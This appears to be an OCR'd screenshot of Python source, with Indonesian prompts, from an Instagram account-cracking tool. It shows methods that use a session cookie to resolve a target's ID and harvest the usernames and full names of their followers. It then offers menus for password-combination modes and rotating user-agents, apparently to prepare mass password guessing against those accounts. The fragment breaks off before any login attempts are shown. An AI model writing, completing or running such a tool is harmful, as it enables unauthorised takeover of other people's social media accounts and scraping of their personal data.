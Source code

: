 	def idAPI(self,cookie,id):
		try:
			m=s.get('https://www.instagram.com/%s/?__a=1'%(id),cookies=cookie,headers={"user-agent":USN})
			m_jason=m.json()["graphql"]["user"]
			idx=m_jason["id"]

		except requests.exceptions.ConnectionError:
			exit(f"\n [{M}!{C}] Koneksi internet bermasalah")
		except Exception as e:
			exit(f"\n [{M}!{C}] Username yang anda masukan tidak di temukan pastikan target bersifat publik")
		return idx

	def infoAPI(self,cookie,api,id):
		try:
			x=s.get(api%(id),cookies=cookie,headers={"user-agent":USN})
			x_jason=json.loads(x.text)
			for i in x_jason['users']:
				username = i["username"]
				nama = i["full_name"]
				internal.append(f'{username}|{nama}')
				following.append(username)
		except requests.exceptions.ConnectionError:
			exit(f'\n [{M}!{C}] Koneksi internet bermasalah')
		except Exception as e:
			print(f'\n [{M}!{C}] Username yang anda masukan tidak di temukan')
		return internal

	def passwordAPI(self,xnx):
		print(f'\n [{H}+{C}] Total id >> [{H}{len(internal)}{C}]')
		print(f"""
 [ List kombinasi password instagram ]

 [1]. V1 Cepat
 [2]. V2 Lambat
 [3]. V3 Sangat Lambat
		""")
		c=input(f' {M}>>>{C} Password: ')
		if c=='1':
			self.generateAPI(xnx,c)
		elif c=='2':
			self.generateAPI(xnx,c)
		elif c=='3':
			self.generateAPI(xnx,c)
		else:
			self.passwordAPI(xnx)

	def generateAPI(self,user,o):
		print(f"""
 [1]. UA - 1
 [2]. UA - 2
 [3]. UA - 3
		""")
		ua=input(f' {U}>>{C} user-agent: ')
		if ua=='1':
			uaAPI=User_Agent()
		elif ua=='2':
			uaAPI=user_agent()
		elif ua=='3':
                        uaAPI=user_agentAPI()
